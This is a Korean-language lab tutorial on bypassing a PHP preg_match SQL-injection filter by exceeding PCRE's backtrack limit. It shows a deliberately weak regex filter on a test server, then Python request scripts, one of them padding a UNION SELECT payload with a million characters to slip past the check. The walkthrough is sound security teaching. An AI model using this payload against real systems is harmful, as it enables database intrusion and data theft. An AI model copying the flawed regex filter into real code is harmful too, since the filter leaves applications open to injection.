 # PCRE Bypass

[PCRE](#https://ko.wikipedia.org/wiki/%ED%8E%84_%ED%98%B8%ED%99%98_%EC%A0%95%EA%B7%9C_%ED%91%9C%ED%98%84%EC%8B%9D)(Perl Compatible Regular Expressions)의 검사 수 제한(catastrophic backtracking)을 이용하여 우회

# **INDEX**

**1. [환경 구성](#환경-구성)**

**2. [preg_match](#preg_match)**

# **환경 구성**

| Type          | Version                   |
| :---          | :---                      |
| OS            | Ubuntu 20.04.3 LTS        |
| Architecture  | x86-64                    |
| IP            | 192.168.108.174           |
| apache2       | 2.4.41-4ubuntu3.10        |
| php           | 7.4.3                     |

apache와 php를 사용하기 위해 관련 패키지를 설치하자.

```sh
root@ubuntu:~# apt -y install apache2 php
```

preg_match를 이용하여 SQLi를 방어하는 코드를 적용하였다.

```php
<?php
if(preg_match('/UNION.+?SELECT/i', $_POST['sql'])) die('SQL Injection');
else echo "pass";
?>
```

pcre의 최대 검사 수를 확인해보자.

```sh
user@user:/var/www/html$ php -r "var_dump(ini_get('pcre.backtrack_limit'));"
string(7) "1000000"
```

# **preg_match**

다음의 sql문을 전달하면 preg_match에 의해서 if문으로 들어간다.

```python
import requests

url = 'http://192.168.108.174/index.php'
data = {'sql': 'UNION SELECT id,pw FROM USER -- '}
res = requests.post(url=url, data=data)
print(res.text)
```

하지만 backtrack_limit 보다 큰 데이터를 전송하면 preg_match의 결과가 false(0)으로 반환되어 else문으로 우회할 수 있다.

```python
import requests

url = 'http://192.168.108.174/index.php'
data = {'sql': 'UNION /*'+'a'*1000000+'*/ SELECT id,pw FROM USER -- '}
res = requests.post(url=url, data=data)
print(res.text)
```